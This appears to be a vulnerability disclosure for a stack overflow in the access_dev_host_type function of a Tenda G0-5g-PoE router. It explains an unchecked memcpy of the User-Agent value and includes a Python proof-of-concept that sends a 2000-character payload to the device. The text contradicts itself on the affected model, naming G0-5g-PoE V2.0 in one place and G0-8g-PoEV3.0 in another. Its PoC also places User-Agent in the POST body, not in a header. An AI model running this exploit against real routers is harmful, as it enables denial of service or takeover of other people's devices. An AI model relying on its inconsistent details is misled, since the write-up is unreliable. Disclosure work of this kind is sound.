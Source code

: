 # Tenda G0-5g-PoE V2.0 access_dev_host_type
### Overview
vendor: Tenda

product: G0-5g-PoE V2.0

version: V16.01.1.8

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.1.8 were discovered to contain a stack overflow in the access_dev_host_type function.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `v5` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-5g-poev20-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
